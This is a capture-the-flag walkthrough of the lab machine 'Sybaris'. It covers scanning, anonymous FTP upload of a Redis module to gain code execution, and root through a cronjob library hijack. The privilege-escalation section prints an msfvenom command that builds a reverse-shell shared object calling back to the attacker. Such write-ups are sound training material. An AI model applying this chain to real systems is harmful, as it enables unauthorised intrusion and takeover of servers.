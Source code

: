 # Sybaris

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.93 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 20:45 +08
Nmap scan report for 192.168.243.93
Host is up (0.17s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
6379/tcp  open   redis
```

I ran a detailed scan to enumerate further:

```
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.231
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sybaris - Just another HTMLy blog
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-generator: HTMLy v2.7.5
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
6379/tcp open  redis   Redis key-value store 5.0.9
```

The most interesting thing was the Redis instance because it was a version that was vulnerable to the Redis Module exploit.&#x20;

### Rabbit Holes

Port 80 was full of Rabbit Holes, nothing was useful about it.

### FTP Creds -> RCE

The FTP service allowed for anonymous access:

```
$ ftp 192.168.243.93
Connected to 192.168.243.93.
220 (vsFTPd 3.0.2)
Name (192.168.243.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
226 Directory send OK.
```

Not sure what this directory is used for. The Redis RCE exploit requires that we put a shared object file within the file system, then use Redis's `MODULE LOAD` to run it.&#x20;

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

I transferred this file over to the `pub` directory and tried to find the correct directory to load my module. After a bit of guessing, I found that we uploaded `module.so` to `/var/ftp`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2173).png" alt=""><figcaption></figcaption></figure>

We can then easily get a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (3481).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob -> Library Hijack

I ran a `linpeas.sh` scan, and found this `cronjob` running:

<figure><img src="../../../.gitbook/assets/image (3946).png" alt=""><figcaption></figcaption></figure>

Turns out that there are some directories that we can write to within the `LD_LIBRARY_PATH`, and the cronjob running `log-sweeper` doesn't have a `utils.so` specified:

```
[pablo@sybaris ~]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007fff4439a000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007fe90fd0e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe9100dc000)
```

This was pretty easy to exploit. Just generate this reverse shell:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf-so > utils.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
```

Then transfer it to the `/usr/local/lib/dev` directory and wait. Be sure to run `chmod 777 utils.so` on it just in case. The cronjob runs every minute, so the connection takes about 30 seconds to appear:

<figure><img src="../../../.gitbook/assets/image (3943).png" alt=""><figcaption></figcaption></figure>

Rooted!
